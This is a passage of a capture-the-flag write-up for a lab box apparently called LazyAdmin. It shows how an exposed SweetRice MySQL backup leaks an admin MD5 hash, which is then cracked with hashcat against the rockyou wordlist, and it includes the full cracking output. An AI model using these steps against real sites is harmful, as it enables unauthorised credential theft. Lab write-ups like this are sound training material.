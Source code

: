 ```

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```
This basically says that you can download all the mysql files for the website at the address: http://(ip address)/inc/mysql_backup.

![](https://Reece4.github.io/assets/LazyAdmin/mysqlpage.png)

Scrolling through the file, it’s not difficult to find a username and a hashed password using MD5 encryption, so I simply decrypted the password using hashcat and now I have user login credentials for the website.

![](https://Reece4.github.io/assets/LazyAdmin/admincreds.png)

```
$ sudo hashcat -m0 hash /usr/share/wordlists/rockyou.txt
[sudo] password for reece:
hashcat (v6.2.5) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-10210U CPU @ 1.60GHz, 1441/2946 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt: 33553434 bytes (2Dictionary cache building /usr/share/wordlists/rockyou.txt: 100660302 bytes (Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

42f749ade7f9e195bf475f37a44cafcb:Password123         	 

Session..........: hashcat
Status...........: Cracked
```
